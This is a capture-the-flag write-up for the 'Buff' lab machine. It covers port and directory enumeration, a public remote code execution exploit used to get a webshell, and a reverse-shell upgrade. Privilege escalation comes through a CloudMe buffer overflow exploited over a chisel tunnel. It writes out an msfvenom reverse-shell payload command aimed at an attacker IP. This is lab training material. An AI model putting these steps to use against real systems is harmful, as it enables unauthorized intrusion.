# Buff
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.198
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 16:06 BST
Nmap scan report for 10.10.10.198 (10.10.10.198)
Host is up (0.11s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.73 seconds
```
```
└─$ gobuster dir -u http://10.10.10.198:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.198:8080
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/07/06 16:38:09 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/img/]
/index.php            (Status: 200) [Size: 4969]
/home.php             (Status: 200) [Size: 143]
/contact.php          (Status: 200) [Size: 4169]
/about.php            (Status: 200) [Size: 5337]
/profile              (Status: 301) [Size: 345] [--> http://10.10.10.198:8080/profile/]
/register.php         (Status: 200) [Size: 137]
/feedback.php         (Status: 200) [Size: 4252]
/Home.php             (Status: 200) [Size: 143]
/upload               (Status: 301) [Size: 344] [--> http://10.10.10.198:8080/upload/]
/upload.php           (Status: 200) [Size: 107]
/Contact.php          (Status: 200) [Size: 4169]
/About.php            (Status: 200) [Size: 5337]
/edit.php             (Status: 200) [Size: 4282]
/license              (Status: 200) [Size: 18025]
/Index.php            (Status: 200) [Size: 4969]
/up.php               (Status: 200) [Size: 209]
/packages.php         (Status: 200) [Size: 7791]
/examples             (Status: 503) [Size: 1058]
/include              (Status: 301) [Size: 345] [--> http://10.10.10.198:8080/include/]
/licenses             (Status: 403) [Size: 1203]
/facilities.php       (Status: 200) [Size: 5961]
/Register.php         (Status: 200) [Size: 137]
/Profile              (Status: 301) [Size: 345] [--> http://10.10.10.198:8080/Profile/]
/LICENSE              (Status: 200) [Size: 18025]
/Feedback.php         (Status: 200) [Size: 4252]
/att                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/att/]
/att.php              (Status: 200) [Size: 816]
/%20                  (Status: 403) [Size: 1044]
/IMG                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/IMG/]
/INDEX.php            (Status: 200) [Size: 4969]
/License              (Status: 200) [Size: 18025]
/ex                   (Status: 301) [Size: 340] [--> http://10.10.10.198:8080/ex/]
/*checkout*.php       (Status: 403) [Size: 1044]
/*checkout*           (Status: 403) [Size: 1044]
/*checkout*.txt       (Status: 403) [Size: 1044]
/Img                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/Img/]
/boot                 (Status: 301) [Size: 342] [--> http://10.10.10.198:8080/boot/]
/Upload               (Status: 301) [Size: 344] [--> http://10.10.10.198:8080/Upload/]
/Upload.php           (Status: 200) [Size: 107]
/phpmyadmin           (Status: 403) [Size: 1203]
/HOME.php             (Status: 200) [Size: 143]
```
- Web server



## Foothold
- While visiting pages found by `gobuster`, I found that `contact.php` reveals the framework and its version



- Checking `searchsploit` gives us `RCE`




- Let's run it





- But I wasn't able to change the directories, since it's a webshell and doesn't save states
  - So I wanted to upgrade the shell by uploading `nc` and geting reverse shell




## Root
- When I downloaded the `winpeas` for enumeration I noticed that in the `Downloads` directory there is a `CloudMe_1112.exe` file
  - So I googled about it and checked the ports along with the list of running processes
  - There is indeed `CloudMe` process running
  - It seemed like it was running periodically since the port `8888` was opening and closing every 1 minute.





- `Searchsploit` returns a list of vulnerabilities
  - And we have a match, since our `exe` file had a version `1.11.2`


- Let's build a tunnel to expose the port
  - We can use `chisel`




- Let's check the exploit


- Generate payload and modify the `PoC`
  - `msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.12 LPORT=7777 -b '\x00\x0A\x0D' -f python -v payload`



- Launch the listener and run the exploit



